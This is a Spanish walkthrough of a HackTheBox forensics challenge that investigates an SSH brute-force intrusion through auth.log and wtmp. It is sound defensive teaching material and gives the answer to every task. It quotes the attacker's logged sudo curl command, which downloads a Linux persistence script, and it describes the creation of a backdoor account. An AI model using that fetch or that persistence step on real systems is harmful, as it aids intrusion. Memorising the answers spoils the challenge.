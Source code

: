 ```yaml
---
title: "Sherlock - Brutus - Español"
summary: "Sherlock de HackTheBox sobre inicios de sesión no autorizados en un servidor Confluence.
 Se proporcionan los archivos auth.log y wtmp para la investigación."
date: "Jan 01 2025"
draft: false
tags:
- HackTheBox
- Sherlock
- Very easy
- Tutorial
- Español
---
```



<SherlockBeginningTable  lang={LANG_ES} 
  data={[
    { content: `En este Sherlock de dificultad muy fácil, te familiarizarás con los registros auth.log y wtmp de Unix. 
    Exploraremos un escenario en el que un servidor de Confluence fue atacado por fuerza bruta a través de su servicio SSH. 
    Después de obtener acceso al servidor, el atacante realizó actividades adicionales, las cuales podemos rastrear utilizando auth.log. 
    Aunque auth.log se utiliza principalmente para el análisis de fuerza bruta, profundizaremos en todo el potencial de este artefacto en nuestra investigación, 
    incluyendo aspectos de escalada de privilegios, persistencia e incluso algo de visibilidad en la ejecución de comandos.` },
    { content: "auth.log, wtmp" },
  ]} />

<div align="center">
  <img width="500px" src="/public/sherlocks/brutus_images/Sherlock_logo.png" />
</div> 

## Tasks

---

<SherlockTask lang={LANG_ES} 
    task_number="1" 
    task_content="Analizando el auth.log, ¿puedes identificar la dirección IP utilizada por el atacante para llevar a cabo un ataque de fuerza bruta?" 
    hint_content="Buscar palabras clave asociadas con intentos de fuerza bruta puede ayudar a identificar ataques potenciales." 
    answer="65.2.161.68"/>

- Podemos buscar por las palabras clave `Invalid user` para averiguar la IP del atacante con cualquiera de estos comandos: 

<CodeBlock code={"grep \"Invalid user\" auth.log"}/>

<CodeBlock code={"cat auth.log | grep \"Invalid user\""}/>

- Los logs tienen este formato:

<CodeBlock code={"Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380"}/>

- Hay muchos intentos fallidos de inicio de sesión desde la IP 65.2.161.68 con cuentas de usuario que sugieren tener privilegios elevados (`admin`, `server_adm`, `svc_account` y `root`). Esa es la IP que buscamos.

---

<SherlockTask lang={LANG_ES} 
    task_number="2" 
    task_content="El ataque de fuerza bruta fue exitoso y el atacante ganó acceso a una cuenta en el servidor. ¿Cuál es el nombre de esa cuenta?" 
    hint_content="Busca por palabras clave que indiquen un intento de inicio de sesión válido para identificar la cuenta comprometida." 
    answer="root"/>

- Echando un vistazo al archivo `auth.log` se puede ver que se ha ganado acceso con el usuario `root` desde la IP 65.2.161.68, que es la IP del atacante como hemos dicho anteriormente.

<CodeBlock code={"Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2"}/>

- Aunque podemos filtar por las palabras clave `Accepted password`:

<CodeBlock code={"cat auth.log | grep \"Accepted password\""}/>

---

<SherlockTask lang={LANG_ES} 
    task_number="3" 
    task_content="¿Puedes identificar el timestamp correspondiente a cuando el atacante inició sesión manualmente en el servidor para llevar a cabo sus objetivos?" 
    hint_content="Es importante señalar que el primer inicio de sesión exitoso por parte del atacante fue el resultado de un intento de fuerza bruta automatizado, 
    y la sesión se cerró dentro del mismo segundo en que se estableció. Después de obtener las credenciales válidas, el atacante inició sesión manualmente, y 
    necesitamos identificar ese inicio de sesión. Utiliza el artefacto wtmp para ver el tiempo de inicio de sesión de la sesión activa y correlacionarlo con auth.log." 
    answer="2024-03-06 06:32:45"/>

- Debido a que en `auth.log` el timestamp tiene este formato `Month Day HH:mm:SS` y el formato que se pide es `YYYY-MM-DD HH:mm:SS` tenemos que buscar en el archivo `wtmp`.
- Con este comando se ven todos inicios de sesion en ese archivo:

<CodeBlock code={"utmpdump wtmp"}/>
    
- Pero podemos filtrar por el nombre de usuario con el que el atacante ganó acceso, que en este caso es lo que nos interesa:

<CodeBlock code={"utmpdump wtmp | grep 'root'"}/>

<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_3.png"/>

- Se puede apreciar que en la última línea se encuentra el inicio de sesión de la IP 65.2.161.68 con un formato similar a `YYYY-MM-DD HH:mm:SS`. Ahí está nuestra respuesta.

---

<SherlockTask lang={LANG_ES} 
    task_number="4" 
    task_content="Los inicio de sesión SSH se rastrean y se les asigna un número al iniciar sesión. ¿Cuál es el número de sesión asignado a la sesión del atacante para la cuenta de usuario de la pregunta 2?" 
    hint_content="Se asigna un número de sesión de forma automática inmediatamente después de que la contraseña sea aceptada." 
    answer="37"/>

- Teniendo en cuenta el timestamp anterior podemos buscar en `auth.log` cerca de esa hora.
- Buscamos por esa hora y esos minutos (aunque también podríamos buscar por el usuario `root`):

<CodeBlock code={"cat auth.log | grep '06:32'"}/>

<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_4.png"/>

- Vemos que un segundo antes (06:32:44) se le asigna el número 37 a la sesión del usuario `root`.

---

<SherlockTask lang={LANG_ES} 
    task_number="5" 
    task_content="El atacante agregó un nuevo usuario como parte de su estrategia de persistencia en el servidor y le otorgó a esta nueva cuenta de usuario privilegios elevados. ¿Cuál es el nombre de esta cuenta?" 
    hint_content="Auth.log también rastrea cambios relacionados con usuarios y grupos en el servidor. Busca palabras clave que indiquen adiciones de usuarios o asignaciones de privilegios." 
    answer="cyberjunkie"/>

- Revisando el archivo `auth.log` nos damos cuenta que, tras ganar acceso, el atacante crea un nuevo usuario con el nombre `cyberjunkie`, a través del comando `useradd`, con la finalidad de mantener acceso persistente en el sistema (crear una puerta trasera):
    
<CodeBlock code={"Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1"}/>

---

<SherlockTask lang={LANG_ES} 
    task_number="6" 
    task_content="¿Cuál es el ID de la sub-técnica de MITRE ATT&CK utilizado para la persistencia al crear una nueva cuenta?" 
    hint_content="Si has encontrado la respuesta a la pregunta 5, consulta la `MITRE ATT&CK enterprise matrix` para determinar el ID de sub-técnica bajo la táctica de persistencia." 
    answer="T1136.001"/>

- Para ello vamos a la URL https://attack.mitre.org y buscamos en **Persistence > Create Account > Local Account**.

---

<SherlockTask lang={LANG_ES} 
    task_number="7" 
    task_content="¿A qué hora terminó la primera sesión SSH del atacante según auth.log?" 
    answer="2024-03-06 06:37:24"/>

- Conociendo el número de sesión SSH, podemos filtrar por él de esta forma:
    
<CodeBlock code={"cat auth.log | grep 'session 37'"}/>
    
<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_7.png"/>

- La segunda línea indica la hora en que se cerró la sesión, con el estado `Removed session 37`.

---

<SherlockTask lang={LANG_ES} 
    task_number="8" 
    task_content="El atacante inició sesión en la cuenta que creó como puerta trasera y utilizó sus privilegios más altos para descargar un script. ¿Cuál es el comando completo ejecutado usando sudo?" 
    hint_content='Aunque auth.log no se utiliza típicamente para rastrear ejecuciones de comandos como auditd, los comandos ejecutados con sudo se registran en auth.log, ya que el sistema necesita autenticar los privilegios de la cuenta para otorgar permisos de nivel root para ese comando. Busca la palabra clave "COMMAND" para encontrar los comandos ejecutados usando sudo.'
    answer="/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"/>

- El sistema necesita autenticar la cuenta para dar permisos de administrador a los comandos ejecutados con `sudo`, con lo cual quedarían registrados en `auth.log`, tal y como dice la pista. Podemos filtrar por:
    
<CodeBlock code={"cath auth.log | grep \"COMMAND\""}/>
 
<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_8.png"/>   

- Una de las líneas nos muestra que se ejecutó el comando `curl` y la URL del script que se descargó el atacante.

---

<SherlockFinalContent lang={LANG_ES}/>
